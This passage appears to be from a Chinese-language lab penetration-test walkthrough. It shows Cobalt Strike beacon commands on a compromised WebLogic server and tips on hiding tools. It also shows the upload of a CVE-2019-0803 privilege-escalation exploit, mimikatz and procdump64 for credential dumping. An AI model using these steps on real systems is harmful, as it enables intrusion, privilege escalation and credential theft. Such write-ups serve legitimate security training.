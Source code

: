 输入

```cmd
beacon> shell dir
```

得到当前目录

```cmd
C:\Oracle\Middleware\user_projects\domains\base_domain\servers\AdminServer\tmp\_WL_internal\bea_wls9_async_response\8tpkys\war>
```

后期使用cs上传相关利用工具到此目录，在实际渗透中，最好将一些利用工具上传到比较隐蔽的位置。

查看当前用户身份，发现是WEB\de1ay普通用户

![](img/15.png)

## 提权

下载https://github.com/k8gege/K8tools/raw/master/CVE-2019-0803.exe，我们利用Win32K组件提权，使用cs上传相关利用工具到目标机

```cmd
beacon>upload /root/CVE-2019-0803.exe
beacon>upload /root/mimidrv.sys
beacon>upload /root/mimikatz.exe
beacon>upload /root/mimilib.dll
beacon>upload /root/procdump64.exe
```

成功上传

![](img/16.png)
